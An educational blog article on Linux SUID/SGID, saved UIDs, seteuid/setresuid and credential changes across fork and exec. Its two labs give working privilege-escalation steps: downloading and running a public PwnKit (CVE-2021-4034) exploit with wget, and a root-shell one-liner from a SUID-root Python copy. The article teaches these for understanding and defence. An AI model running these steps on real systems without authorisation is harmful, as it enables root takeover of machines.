








> _This is the second article in the Linux Privilege Internals series. The [first article](https://shubhsec.dev/post/linux/linux-privilege-internals-part-1/) covered how Linux stores process identity in `struct cred` and why a process carries multiple UIDs. This article picks up the two open questions from there: how does `passwd` temporarily become root, and why is that a problem._

---

# Introduction

A normal user should not be able to edit `/etc/shadow`.

Yet you can run: `passwd`

As an ordinary user, change your password, and the system somehow manages to let that program modify a file that is normally writable only by root. So where did that privilege come from?
The answer is not that `passwd` starts as root, and it is not that your user account temporarily becomes root.
The process still belongs to you. Instead, Linux changes one part of its credentials when the program is executed: its **effective UID**.

That is what the SUID bit is for.

It gives an executable a different effective identity from the user who launched it. A root-owned SUID binary can therefore perform operations that the calling user normally could not.

That sounds fairly controlled.

The problem is what happens next.

Linux does not give `passwd` a special `/etc/shadow` permission or give `ping` a special "raw socket permission" just because they need those things. With traditional SUID, the executable gets the identity of the file owner often `root` and with that identity comes everything that root can do.

That makes SUID a surprisingly important security boundary.

> **SUID is the mechanism that grants the privilege. A vulnerability determines what the privileged program can be tricked into doing with it.**

---

# What SUID Actually Is

Every Linux file has the nine permission bits we normally think about: read, write, and execute for the owner, group, and everyone else.

There are also three extra bits sitting above them.

```bash
ls -la /usr/bin/passwd
-rwsr-xr-x 1 root root ... /usr/bin/passwd
```

That `s` in the owner's execute position is SUID.

The important part of SUID isn't that the file is owned by root. The interesting thing is what happens when you execute it.
SUID means something more specific:

> When this executable is run, the process gets the file owner's **effective UID**.

So when Lelouch (UID 1000) runs `passwd`, the process does not suddenly become a different process. `execve()` replaces the old program image, and during that transition the kernel adjusts the credentials.

Before:

```bash
ruid=1000 euid=1000 suid=1000
```

After executing a root-owned SUID binary:

```bash
ruid=1000  euid=0     suid=0
```

The real UID is still 1000. The effective UID is now 0, which is what lets the program perform operations normally denied to the user.

The saved UID becomes 0 as well. That part matters later when we look at dropping and restoring privileges.

Here is the whole transition at a glance:



For `passwd`, the interesting part is simply:

```bash
ruid:  1000 → 1000
euid:  1000 → 0
suid:  1000 → 0
```

That is the mechanism that lets an ordinary user execute a root-owned program with root's effective identity.

---

# How the Kernel Sets It

The important thing here is that the new program does **not** get to decide whether it should become privileged. By the time the new program starts executing, the credential transformation has already happened.

There are also three cases where Linux suppresses this privilege transition:

- the calling thread has `no_new_privs` set
- the filesystem is mounted with `nosuid`
- the process is being `ptraced`

In those cases, the SUID/SGID bits do not produce the usual credential change.

The real UID does not change. The effective UID changes to the file owner's UID when SUID applies, and the resulting effective UID is copied to the saved set-user-ID.

That is the part that matters when we later look at privilege dropping and restoration.

You can verify the transformation yourself. Run `passwd` and inspect its credentials while it is running:

```bash
# terminal 1
passwd

# terminal 2
ps aux | grep passwd
cat /proc/<PID>/status | grep -E "Uid|Gid"
```

You should see that the effective UID can differ from the real UID.

That is SUID in action. The process is still associated with the user who launched it, but permission checks can be performed using a different effective identity.

---

# SGID Works The Same Way

SUID changes the effective **user** ID. SGID does the same kind of thing for the **group** ID. For an executable, the `s` appears in the group execute position:

```bash
-rwxr-sr-x 1 root tty ... /usr/bin/wall
```

The `s` in the group execute slot is the SGID bit. When the executable is run, the kernel changes the process's effective GID to the group that owns the file. The real GID and supplementary groups are not changed by execve().

On systems where `wall` has SGID `tty`, it can access terminals through that group identity without needing a root effective UID.

For a directory, the SGID bit controls group inheritance instead of changing a process's effective GID. New files created inside the directory inherit the directory's group, and newly created subdirectories inherit the SGID bit as well.

So the same bit has two different jobs depending on what it is attached to:



You can use this to test:

```bash
mkdir -p /tmp/testdir
chmod g+s /tmp/testdir
ls -ld /tmp/testdir

# seeing the inheritance
touch /tmp/testdir/testfile
ls -l /tmp/testdir/testfile
```

---

# The S vs s Distinction

There is one small detail worth knowing when you are looking through permission listings: lowercase `s` and uppercase `S` do not mean the same thing.

For SUID:

```bash
-rwsr-xr-x   SUID set + owner execute set
-rwSr--r--   SUID set + owner execute not set
```

And the same rule applies to SGID:

```bash
-rwxr-sr-x SGID set + group execute set
-rwxr-Sr-- SGID set + group execute not set
```

The lowercase `s` means the special bit is set and the corresponding execute bit is set.

The uppercase `S` means the special bit is set, but the corresponding execute bit is not set.

That distinction matters because SUID and SGID only have their normal executable meaning when the file can actually be executed. An uppercase S therefore usually means the special bit is present without a usable execute permission.

```bash
find / -perm /4000 -not -perm /0111 2>/dev/null

```

The four cases that emerge are:



So when auditing a system, s means "the special bit is active alongside execute," while S tells you that the special bit is set but execute is missing.

---

# The Drop and Restore Cycle

Getting root is only half of the story.

A SUID program does not necessarily need to run with elevated privileges for its entire lifetime. A well-designed program can perform the privileged operation it needs, temporarily drop its effective UID, do the rest of its work as the original user, and then regain the privileged identity when necessary.

This is where the **saved set-user-ID** becomes useful.

For a root-owned SUID program started by UID 1000:

```bash
start:    ruid=1000  euid=0     suid=0
drop:     ruid=1000  euid=1000  suid=0
work:     ruid=1000  euid=1000  suid=0
restore:  ruid=1000  euid=0     suid=0
```

That last line is the important one. The program can give up its effective privilege without throwing away the ability to regain it.



The syscall involved here is `seteuid()` rather than `setuid()`.

`seteuid()` changes the **effective UID** while leaving the real UID and saved set-user-ID unchanged. An unprivileged process can switch its effective UID to its real UID or saved set-user-ID, which is exactly what makes this drop-and-restore pattern possible.

Whereas `setuid()` behaves differently for a process that is currently privileged. On Linux, a set-user-ID-root program with effective UID 0 calling `setuid(1000)` sets the real UID, effective UID, and saved set-user-ID to 1000. Once that happens, it cannot use the saved UID to regain root.

Use `seteuid()` for a simple demonstration:

```c
#include <stdio.h>
#include <unistd.h>

int main(void)
{
    printf("start:   ruid=%d euid=%d\n", getuid(), geteuid());

    if (seteuid(getuid()) == -1)
    {
        perror("seteuid(drop)");
        return 1;
    }

    printf("dropped: ruid=%d euid=%d\n", getuid(), geteuid());

    if (seteuid(0) == -1)
    {
        perror("seteuid(restore)");
        return 1;
    }

    printf("restore: ruid=%d euid=%d\n", getuid(), geteuid());

    return 0;
}
```

Compile it and make it SUID root:

```bash
gcc -o test_suid test_suid.c
sudo chown root:root test_suid
sudo chmod u+s test_suid
./test_suid
```

You should get output along these lines:

```bash
start:   ruid=1000 euid=0
dropped: ruid=1000 euid=1000
restore: ruid=1000 euid=0
```

That is the saved UID doing its job: the program temporarily gives up its effective privilege while keeping the privileged UID available for a later `seteuid(0)`.

---

# setresuid and Why It Matters

By this point, the difference between `setuid()` and `seteuid()` should be clear:

- `setuid()` can change more than just the effective UID when called by a privileged process.
- `seteuid()` is mainly about changing the **effective UID** while retaining the real and saved IDs.

`setresuid()` lets you explicitly set all three:

```c
setresuid(ruid, euid, suid);
```

Instead of relying on the special rules of `setuid()`, you tell the kernel exactly what you want the real UID, effective UID, and saved set-user-ID to become.

That makes it particularly useful when a program needs precise control over its privilege state.

The three calls can be compared like this:



For example, a privileged process can use:

`setresuid(1000, 1000, 0);`

To end up with:

```bash
ruid = 1000
euid = 1000
suid = 0
```

The process is no longer privileged for normal permission checks, but the saved UID still records the privileged identity.

That is the same basic idea we saw with `seteuid()`, except now the program explicitly controls each UID rather than relying on the semantics of a particular syscall.

You can inspect all three values through `/proc`:

```bash
grep '^Uid:' /proc/$$/status
```

Which reports:

```bash
Uid: real effective saved filesystem
```

---

# What Crosses fork and exec

`fork()` and `execve()` do very different things, and keeping them separate makes the credential behavior much easier to understand.

When a process calls `fork()`, the child gets copies of the parent's user and group credentials.

For example, if a privileged process currently has:

```bash
parent:
  ruid = 1000
  euid = 0
  suid = 0
```

Then immediately after fork() the child has the same values:

```bash
parent: ruid=1000 euid=0 suid=0
↓
fork()
↓
child: ruid=1000 euid=0 suid=0
```

This is an important distinction from `execve()`: `fork()` creates a new process, but it does not perform a credential transition. The child simply inherits copies of the parent's credentials.

The interesting part happens when that child calls execve().

`execve()` keeps the same process and replaces its program image. Its real UID, real GID, and supplementary groups remain unchanged. The effective and saved IDs can change if the new executable has SUID or SGID set.

So the flow looks like this:



The `fork()` gives you the new process. The `execve()` decides what program that process runs and whether the executable causes a set-ID transition.

# Finding SUID Binaries

Once you understand what SUID actually does, the next question is much more practical:

Which files on this machine can trigger that transition?

You can search for SUID and SGID files with:

```bash
# all SUID files
find / -perm /4000 -type f 2>/dev/null

# all SGID files
find / -perm /2000 -type f 2>/dev/null
```

On a typical Linux installation, you may find binaries such as:

```bash
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/ping
...
```

The exact list depends on the distribution, installed packages, and configuration, so don't treat this as a universal list.

Finding a SUID binary is only the first step. The important question is answering why does this program need elevated privileges in the first place?

`passwd` needs access to protected account files. `ping` historically needed privileges for operations such as creating raw sockets. The security problem appears when the program does more with its elevated identity than it actually needs to.

For auditing SUID binaries, GTFOBins is a useful reference for checking known abuse techniques: https://gtfobins.github.io/#+suid

It is important to understand **what privilege each binary receives, why it receives it, and what happens if an attacker influences its execution.**

---

# Lab: PwnKit (CVE-2021-4034)

This is where the SUID theory becomes practical.

PwnKit (CVE-2021-4034) is a local privilege-escalation vulnerability in `pkexec`, a SUID-root program from polkit. The vulnerability allowed an unprivileged user to execute code with root privileges on vulnerable systems. ([blog.qualys.com](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034?utm_source=chatgpt.com))

## Starting the Lab

Create `docker-compose.yml`:

```yaml
version: "2"
services:
  cmd:
    image: vulhub/polkit:0.105
    ports:
      - 2222:2222
```

Start it `docker compose up -d`

The container starts a QEMU-based Ubuntu 20.04 environment, so give it a little time to boot.
You can watch the initialization logs with:

```bash
docker compose logs -f
```

Wait until the cloud-init/VM initialization has completed and SSH is available.

Then connect:

```bash
ssh ubuntu@127.0.0.1 -p 2222
```

> [!WARNING]
> REMOTE HOST IDENTIFICATION HAS CHANGED! This happened because a new SSH key is generated use `ssh-keygen -R '[127.0.0.1]:2222'` to remove it.

Credentials:

```sh
username: ubuntu
password: vulhub
```

Check the target:

```bash
id
cat /proc/$$/status | grep Uid
ls -la /usr/bin/pkexec
pkexec --version
```

You should see something similar to:

```bash
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),...
Uid: 1000 1000 1000 1000
-rwsr-xr-x 1 root root ... /usr/bin/pkexec
pkexec version 0.105
```

That `s` tells us `pkexec` is SUID root.

So when pkexec executes: ruid = 1000, euid = 0, suid = 0

The attacker is still an ordinary user, but the vulnerable program is running with root's effective identity.

Before exploiting it:

```bash
cat /proc/$$/status | grep Cap
```

You should see CapEff set to zero. `CapEff: 0000000000000000`

Download and compile the public proof of concept:

```bash
cd /tmp

wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
tar -zxvf main.tar.gz

cd CVE-2021-4034-main
make
./cve-2021-4034
```

The exploit abuses an argc == 0 edge case in pkexec, allowing an attacker-controlled environment variable to be reintroduced into the privileged process. Read more about it [here](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034?utm_source=chatgpt.com)

The important part is the order:



After Exploitation

Check the shell again:

```bash
id
cat /proc/$$/status | grep Uid
cat /proc/$$/status | grep Cap

#You should now see:
uid=0(root) gid=0(root) groups=0(root),...
Uid: 0 0 0 0
```

And `CapEff` should now be non-zero.

The vulnerability did not create the initial privilege. SUID had already given pkexec root privileges. The bug gave the attacker a way to control execution inside that privileged process.

---

## What Actually Happened

The PwnKit bug is a relatively small argument-handling bug which ended up executing attacker-controlled code inside a SUID program. The problem is in how `pkexec` handles its argument list.

`pkexec` assumes that `argc` is greater than zero and accesses `argv[1]`. But when the program is invoked with `argc == 0`, there is no `argv[1]`.

That access goes past the end of the `argv` array.

The important detail is what comes next: in the process's initial stack layout, the `envp` array is located immediately after the `argv` pointers. This means the out-of-bounds access can reach an environment pointer.

Qualys showed that this could be turned into an out-of-bounds write, allowing an attacker to reintroduce a dangerous environment variable such as `LD_PRELOAD`. ([Qualys](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034))

That matters because `pkexec` is already running with root privileges.

The vulnerability did not create the root privilege. SUID had already granted it. The bug simply gave the attacker a way to control what happened inside the privileged process.

That is the important lesson from PwnKit: a vulnerability in a SUID program is dangerous not because the bug itself necessarily grants a new privilege, but because the vulnerable code is already running with the privileges of the file owner.

---

# Lab: Misconfigured SUID Binary

We don't need a CVE to demonstrate why SUID can be dangerous.

A privileged binary can become a privilege-escalation path simply because someone gave it the SUID bit without considering what the program can do.

For this lab, we'll use Python.

First copy the interpreter somewhere on a filesystem that is **not** mounted with `nosuid`:

```bash
cp /usr/bin/python3 ~/python3
sudo chown root:root ~/python3
sudo chmod 4755 ~/python3
```

Check the permissions:

```bash
ls -l ~/python3
```

You should see:

```bash
-rwsr-xr-x 1 root root ... python3
```

Now run it as your normal user:

```bash
~/python3 -c "import os; os.setuid(0); os.system('/bin/bash')"
```

Check the resulting shell:

```bash
id
cat /proc/$$/status | grep Uid

# You should now see:
uid=0(root) gid=1000(...) groups=1000(...)
Uid: 0 0 0 0
```

The important part is what happened before `os.setuid(0)` even ran.

Because the interpreter itself was SUID root, `execve()` started Python with an effective UID of 0. The Python code then used that existing privilege to set its UID to root and spawn a shell.

No CVE, no memory corruption, no kernel trick. The only thing we did was give Python the SUID bit.

It is simply a root-owned binary with:

```bash
-rwsr-xr-x
```

That is why SUID binaries need to be treated as security-sensitive executables. Giving a program SUID does not give it one narrowly defined capability. It gives the program the effective identity of the file owner.

For known SUID abuse techniques and examples, GTFOBins is a useful reference: https://gtfobins.github.io/gtfobins/python/#suid

---

# The Root of the Problem

`ping` is a good example. On systems where it uses file capabilities, you can see the privilege it actually needs:

```bash
ls -la /usr/bin/ping
getcap /usr/bin/ping
```

You may see `/usr/bin/ping cap_net_raw=ep`

`CAP_NET_RAW` allows a process to create RAW and PACKET sockets, which covers the privileged networking operation ping may need.

The program needs one privileged operation. Traditional SUID solves that by changing the program's identity, which can give it considerably more authority than the operation itself requires.



`PwnKit` is a good example. `pkexec` was already running with root privileges because it was SUID. The vulnerability did not create those privileges; it gave the attacker a way to control execution inside a process that already had them.

So when looking at a privileged program, the useful question is not only:

> **What does this program need?**

It is also:

> **What does this program have?**

That distinction is where the limitations of traditional SUID become clear.

Linux capabilities provide a more granular model. Instead of treating UID 0 as one large bucket of privilege, the kernel separates many privileged operations into individual capabilities.

So the model changes from:

```bash
Need one privileged operation
↓
Run as root
↓
Get root's authority
```

to:

```bash
Need one privileged operation
↓
Grant the relevant capability
↓
Keep unrelated privileges out
```

That is the idea behind Linux capabilities.

# Final Thoughts

We started with `passwd` and followed what happens when a SUID program crosses the `execve()` boundary, how its credentials can be dropped and restored, and what happens when a privileged program is vulnerable.

PwnKit showed the dangerous side of that model: `pkexec` already had root privileges because of SUID, and the vulnerability gave an attacker a way to control execution inside that privileged process.

The deeper problem is privilege granularity. A program may need one privileged operation while SUID gives it the broader identity of the file owner.

That leads to the next question:

> **What if we could give a process only the specific privileges it actually needs?**

That is where Linux capabilities come in.

In the next article, we'll look at those capabilities, where they live in the kernel, and how Linux can separate privileges that traditionally came together with UID 0.

---

# References

- [Linux Privilege Internals Part 1](https://shubhsec.dev/post/linux/linux-privilege-internals-part-1/)
- [man 2 execve](https://man7.org/linux/man-pages/man2/execve.2.html)
- [man 2 setuid](https://man7.org/linux/man-pages/man2/setuid.2.html)
- [man 2 setresuid](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [man 2 seteuid](https://man7.org/linux/man-pages/man2/seteuid.2.html)
- [man 2 fork](https://man7.org/linux/man-pages/man2/fork.2.html)
- [man 2 prctl](https://man7.org/linux/man-pages/man2/prctl.2.html)
- [Credentials in Linux — kernel.org](https://docs.kernel.org/security/credentials.html)
- [CVE-2021-4034 PoC — berdav](https://github.com/berdav/CVE-2021-4034)
- [PwnKit writeup — Qualys](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
- [GTFOBins SUID](https://gtfobins.github.io/#+suid)
- [Special Permissions SUID SGID Sticky](https://commandinline.com/linux-special-permissions-suid-sgid-sticky)
- [How and why Linux daemons drop privileges](https://linux-audit.com/how-and-why-linux-daemons-drop-privileges/)
